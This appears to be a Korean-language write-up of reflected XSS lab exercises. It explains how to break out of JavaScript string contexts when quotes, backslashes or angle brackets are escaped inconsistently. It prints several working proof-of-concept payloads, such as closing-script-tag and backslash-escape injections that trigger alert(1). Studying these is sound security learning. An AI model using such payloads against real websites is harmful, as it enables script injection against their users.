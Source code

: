 다음와 같은 페이로드 중 하나를 search parameter로 넘기면 문제가 해결된다.
```
'; alert(1); var a = '
```

```
'-alert(1)-'
```

```
'+alert(1)+'
```

만약 첫 번째 꺼를 위 코드에 넣으면 다음과 같이 될 것 이다.
```php
                        var searchTerms = ''; alert(1); var a = '';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    
```


## Reflected XSS into a JavaScript string with single quote and backslash escaped
---
(서버에서) single quote and backslash escaped됩니다. 
하지만 `<`, `>`는 이스케이프 처리하지 않습니다.

검색창에 `fd`를 입력해본 후 소스 코드를 잘 관찰해보면 다음과 같은 것을 발견할 수 있습니다. 
```html
<script>
                        var searchTerms = 'fd';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

`<script>alert(1)</script>`를 검색창에 입력하면 사진과 같이 나온다.
![[Screenshot from 2025-06-30 18-40-42.png]]

브라우저가 공격자가 입력한 `</script>`를 끝이라고 판단하기 때문에 `';document.write('');`가 텍스트로 출력된다.

다음을 입력하면 문제가 해결됩니다.
```html
</script><script>alert(1)</script>
```

## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
---
blackbox 문제이다.
`\`는 escaped 되지 않았다. \를 사용하면 `'`을 이스케이프 처리하는 `\`를 escape할 수 있고 이를 통해 탈출할 수 있다.

`\'-alert(1)//`를 입력하면 다음과 같이 되고 문제가 해결된다.
```js
var searchTerms = '\\'-alert(1)//';
```


